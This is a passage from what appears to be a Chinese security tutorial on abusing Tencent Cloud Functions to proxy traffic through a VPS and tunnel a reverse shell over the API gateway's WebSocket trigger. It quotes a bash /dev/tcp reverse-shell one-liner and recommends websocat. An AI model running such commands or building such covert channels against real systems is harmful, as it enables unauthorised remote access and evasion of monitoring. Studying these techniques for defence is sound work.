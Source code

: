至此，一条完整的通路便形成了。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426001951-100145e8-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426001951-100145e8-a5e2-1.jpeg)

### 效果

以 MySQL 连接为例，配置 Proxifier

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426001959-150e9a90-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426001959-150e9a90-a5e2-1.jpeg)

连接 MySQL：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002036-2aa00d30-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002036-2aa00d30-a5e2-1.jpeg)

在 VPS 上开启 SOCKS5 代理，成功打通连接  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002047-3151e9d2-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002047-3151e9d2-a5e2-1.jpeg)

#### 缺陷

*   受限于云函数的超时时间，最多仅能维持 **15 分钟长连接**
*   代理需要 VPS

反弹 shell
--------

腾讯云函数的 API 网关除了基本的 HTTP 协议，还提供了一个 websocket 协议触发器，具体描述如下：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002131-4b8136fa-a5e2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002131-4b8136fa-a5e2-1.png)

文中提到，每当客户端发出消息都会触发云函数的执行，这也是为什么上一节不能直接用 websocket 进行 socks5 代理。

介绍完 websocket 功能，接下来就看看如何利用这个东西实现反弹 shell 的功能。

### 原理

反弹 shell 的本质在于与目标建立一个可以传输数据的双向通道，攻击者通过通道传输的数据被受害主机执行并将结果借由通道原路返回。以 bash 反弹 shell 为例子：

```
bash -i >& /dev/tcp/127.0.0.1/8088 0>&1
```

*   `>& target` 等价于 `> file 2>&1`，即将_标准错误输出_和_标准输出_都重定向 target
*   `0>&1` 即将标准输入也重定向到 target  
    最终的结果如下  
    [![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002149-56438bc4-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002149-56438bc4-a5e2-1.jpeg)

既然如此，我们能不能再加两层 websocket 通道，形成这样的结构：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002159-5c71bf0c-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002159-5c71bf0c-a5e2-1.jpeg)

形成上述结构的关键在于需要能够从受害主机对 API 网关发起 websocket 连接并传输 shell 数据，于是经过一番摸索找到这样一个工具 [websocat](https://github.com/vi/websocat)。
